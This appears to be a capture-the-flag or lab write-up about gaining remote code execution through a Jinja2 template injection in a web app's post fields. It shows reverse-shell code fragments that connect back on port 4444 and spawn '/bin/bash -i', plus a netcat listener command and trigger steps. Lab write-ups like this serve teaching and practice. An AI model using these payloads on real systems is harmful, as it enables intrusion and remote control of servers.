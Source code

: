 
### **The Important Part We Care About**

The key part we need to **modify** is:

```python
subprocess.call(["/bin/cat", "flag.txt"]);
```

- This is just **reading** `flag.txt`.
- Instead, we want to **spawn an interactive shell**.

#### **Making It Interactive**

To actually **get a shell**, we replace `cat flag.txt` with `/bin/bash -i`, like so:

```python
subprocess.call(["/bin/bash", "-i"]);
```

This ensures that when we **connect back**, we get an **interactive shell** instead of just a single command execution.

---

### **Also, Don’t Forget the Port!**

```python
s.connect(("ip",4444))
```

- The number **4444** is the **port we need to listen on**.
- Before running the payload, make sure to **set up a listener** on your attacking machine:
    
    ```bash
    nc -lvnp 4444
    ```
    
    This will **catch** the incoming connection and drop us into a shell.

---

## Testing Our RCE Payload

1. Craft a new message post, placing the Jinja2 RCE payload in the Title or Content field.
2. Save the post, confirm it appears under `/home`.
3. Start a netcat listener on port 4444:
    

4. `nc -lvnp 4444`
    
2. Browse to `/archive` to make the server parse our post.

![[title-payload.png]]

We see the post was accepted. When we load `/archive`, it should attempt to run our Python one-liner. If the IP and port match your listener, you should catch a reverse shell:

![[jinja-payload-failed.png]]
